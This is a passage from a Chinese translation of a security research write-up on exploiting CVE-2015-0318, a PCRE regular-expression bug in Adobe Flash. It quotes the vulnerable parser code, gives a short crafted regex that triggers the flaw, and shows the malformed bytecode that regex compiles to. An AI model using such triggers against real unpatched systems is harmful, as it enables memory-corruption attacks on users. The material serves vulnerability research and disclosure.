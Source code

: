 # 在Flash中利用PCRE正则式漏洞CVE-2015-0318的方法

0x00 前言
=====

标题：(^Exploiting)\s_(CVE-2015-0318)\s_(in)\s*(Flash$) 作者：Mark Brand

issue[199/PSIRT-3161/CVE-2015-0318](https://code.google.com/p/google-security-research/issues/detail?id=199)

简要概述：Flash使用的PCRE正则式解析引擎（https://github.com/adobe-flash/avmplus/tree/master/pcre， 请注意公开的avmplus代码早已过期，他之前有的许多其他漏洞已经被Adobe修复，所以审计这段代码可能会比较让人灰心）。

注：明显这个引擎是有漏洞的，从上面的issue页面可以看到漏洞的相关信息。

0x01 背景
=====

```
/* For \c, a following letter is upper-cased; then the 0x40 bit is flipped.
This coding is ASCII-specific, but then the whole concept of \cx is
ASCII-specific. (However, an EBCDIC equivalent has now been added.) */

case 'c':     <---- There’s no check to see if we’re in UTF8 mode
c = *(++ptr); <---- This could be part of a multibyte unicode character
if (c == 0)
{
   *errorcodeptr = ERR2;
   break;
}

#ifndef EBCDIC  /* ASCII coding */
   if (c >= 'a' && c <= 'z') c -= 32;
   c ^= 0x40;
#else           /* EBCDIC coding */
   if (c >= 'a' && c <= 'z') c += 64;
   c ^= 0xC0;
#endif
   break;

```

以下就是当我们把转义符\c（匹配1个ASCII字符串， 译注：ANSI字符）和一个多字节的UTF-8字符合在一起的结果，我们可以简单的用“\c\xd0\x80+”来触发bug，如下：

```
\cЀ+(?1)

```

编译后会是如下字节码：

```
0000 5d0009      93 BRA              [9]
0003 1bc290      27 CHAR             ['\xc2\x90']
0006 201b        32 PLUS             ['\x1b']
0008 80         128 INVALID
0009 540009      84 KET              [9]
000c 00           0 END  

```
